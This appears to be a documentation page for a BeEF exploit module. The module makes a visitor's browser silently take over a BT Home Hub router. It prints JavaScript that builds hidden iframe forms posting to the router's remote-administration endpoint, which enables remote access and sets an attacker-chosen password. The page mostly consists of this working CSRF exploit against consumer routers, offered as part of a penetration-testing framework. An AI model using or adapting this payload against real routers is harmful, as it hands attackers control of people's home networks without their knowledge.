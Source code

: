 ## Summary

* **Objective**: enable remote administration and change the password on a BT Home Hub wireless router.
* **Authors**: bcoles
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/exploits/router/bt_home_hub_csrf)

## Internal Working

Creates iframes with POST requests to enable remote administration and change the password on a BT Home Hub wireless router.

```js

var bt_home_hub_iframe_<%= @command_id %> = beef.dom.createIframeXsrfForm(gateway + "/cgi/b/ras//?ce=1&be=1&l0=5&l1=5", "POST", "application/x-www-form-urlencoded", [
    {'type':'hidden', 'name':'0',  'value':'31'} ,
    {'type':'hidden', 'name':'1',  'value':''},
    {'type':'hidden', 'name':'30', 'value':passwd}
]);


```

## Feedback

